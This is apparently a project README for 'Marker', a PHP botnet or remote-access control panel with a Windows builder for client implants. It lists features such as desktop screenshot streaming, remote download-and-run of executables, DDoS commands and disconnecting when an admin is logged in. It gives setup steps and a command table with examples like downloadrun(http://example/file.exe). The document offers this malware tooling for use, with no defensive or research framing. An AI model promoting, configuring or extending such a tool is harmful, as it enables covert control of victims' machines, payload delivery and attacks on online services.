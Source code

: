 ### Marker

# Features
- [x] Streaming desktop screenshot with request.
- [x] Supporting `4` commandline `download` + `download and run` + `ddos` + `msgbox` .
- [x] Supporting `offline` computers `Refresh every 19 secounds` .
- [x] Black List - manager page , `Delete IP` + `Remove All` .
- [x] Encrypt `Strong` key bettwen ` Server & Client ` to make it simply harder to decoded.
- [x] Full safe scan to script ` check if is that an admin is logged in ? ` or not and disconnect !
- [x] Safe script from ` flood ` by check the computers file is exists or not !
- [x] Safe script from ` wcp ` by blcok the computers IP ADDRESS in configs file - delete all computers file from hosting .


# Sample Usage
1. Upload all files in your hosting ` you can use xampp ` but check the ` 80 ` port is open in your router .
2. 'Requirements' : open file in ` /api/config.php ` and change ` Username + Password ` with your information .
```php
$username = 'test'; # Admin username
$password = 'test'; # Admin Password
```
3. open path ` /api/builder.rar ` and uncompress it in your desktop and run ` Marker Builder v1 - KingDomSc.exe ` to create a server .
4. logged in web-script , and get full controls with computers .


# Project Commands
Command | Example | Description
--- | --- | ---
*download* | download(http://example/file.exe) | download file in `STARTUP` path
*downloadrun* | downloadrun(http://example/file.exe) | download file in `TEMP` path and running it
*ddos* | ddos(http//website.com/example) | To make online service unavailable
*msgbox* | msgbox(body,title) | To show messagebox with body and up title in computers .
<dl>
<dt>You can add more commands : </dt>
<dd>by edit file in ` /api/command.php ` + edit server `commandline` panel.</dd>
</dl>


# Screenshots
![alt text](http://up.dev-point.com/uploads1/d57d37f8f83a1.png "Login page")
![alt text](http://up.dev-point.com/uploads1/2164da4760961.png "Offline computers")
![alt text](http://up.dev-point.com/uploads1/4ed82b3d87663.png "Online computers")
![alt text](http://up.dev-point.com/uploads1/b2f1abd4e9ff2.png "No computers connect")
1. ` Login page `
2. ` Offline computers `
3. ` Online computers `
4. ` No computers connect `

![alt text](http://up.dev-point.com/uploads1/8cf54aa9a1594.png "Desktop screenshot")
1. ` Desktop Screenshot - online Streaming ` with ' Jquery Script '.

![alt text](http://up.dev-point.com/uploads1/e1c57572f6286.png "Setting page")
1. ` Setting page - Change username and password information ` .

![alt text](http://up.dev-point.com/uploads1/362bfaa40f152.png "Blacklist page")
1. ` Controls with blacklist IP ADDRESS ` with ` Remove once ` or ` Remove all `

![alt text](http://up.dev-point.com/uploads1/524105adef377.png "Builder app")
1. ` Builder Server Application - Windows Only `.


# Youtube Tutorial
[![IMAGE ALT TEXT HERE](https://i.ytimg.com/vi/ZHZsnNR2Zc4/hqdefault.jpg)](https://www.youtube.com/watch?v=ZHZsnNR2Zc4)
1. Special thanks to `Hallaj.Hack` - make this tutorial .


# Support the project
<a href="https://www.instagram.com/kingdomsc" target="_blank">Kingdomsc - Instagram Accounts</a>
